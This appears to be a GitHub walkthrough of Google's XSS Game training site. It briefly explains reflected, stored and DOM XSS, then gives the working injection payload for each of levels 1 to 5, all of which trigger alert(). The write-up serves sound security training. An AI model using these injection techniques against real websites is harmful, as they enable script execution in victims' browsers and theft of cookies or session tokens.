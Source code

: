 # XSS Game Appspot 

![image](https://user-images.githubusercontent.com/60937657/209459481-f9fa5664-0a05-4402-8f99-2abe37ffd64d.png)

Link of XSS GAME AREA - https://xss-game.appspot.com/

**Cross-Site Scripting (XSS)** is one of the most popular and vulnerable attacks which is known by every advanced tester. It is considered one of the riskiest attacks for web applications and can bring harmful consequences too.

XSS is often compared with similar client-side attacks, as client-side languages are mostly being used during this attack. However, an XSS attack is considered riskier, because of its ability to damage even less vulnerable technologies.

## Types of Cross Site Scripting Attacks

The prime purpose of performing an XSS attack is to steal another person’s identity. As mentioned, it may be cookies, session tokens, etc. XSS also may be used to display faked pages or forms for the victim. However, this attack can be performed in several ways.

This attack is divided into three main categories as shown below:

1) Reflected XSS – This attack occurs, when a malicious script is not being saved on the webserver but reflected in the website’s results.
2) Stored XSS – This attack occurs when a malicious script is being saved on the webserver permanently.
3) DOM – This occurs, when the DOM environment is being changed, but the code remains the same.

### Level 1 

![image](https://user-images.githubusercontent.com/60937657/209504143-554f58db-6d74-474b-b20f-9f6d1fd4fb8b.png)

```
<script>alert()</script>
```

![image](https://user-images.githubusercontent.com/60937657/209503948-bd3663c3-59d9-4516-a762-96af44f6294d.png)

### Level 2 

![image](https://user-images.githubusercontent.com/60937657/209503755-05c0d614-3dda-4dc7-b855-a42d5b9f4cee.png)

```
<img src="http://inexist.ent"
onerror="javascript:alert(1)"/>
```

![image](https://user-images.githubusercontent.com/60937657/209503869-0f536c23-f2a7-466c-bb0d-101e4a695477.png)

### Level 3 

![image](https://user-images.githubusercontent.com/60937657/209504304-c8f8484f-0c54-4673-a6d0-c403a0591670.png)

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```

![image](https://user-images.githubusercontent.com/60937657/209508407-5e598764-ee7e-478e-a1f6-34245fc3cf76.png)

### Level 4 

![image](https://user-images.githubusercontent.com/60937657/209508468-2e519c5c-0e26-44a7-ad53-a39ff7e25a75.png)

```
timer=');alert('xss
```

![image](https://user-images.githubusercontent.com/60937657/209509468-678f2ef2-8aec-4e88-a381-c7f05e2ac147.png)

### Level 5 

![image](https://user-images.githubusercontent.com/60937657/209523525-15f14c6c-d4e3-4853-8089-57d5614cba2d.png)

Command to be inserted in browser URL section;
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
Command to be inserted in email section;
```
signup?next=javascript:alert(1)
```

![image](https://user-images.githubusercontent.com/60937657/209523829-c4040efd-b95f-487d-a5de-41f4bac8f2fd.png)
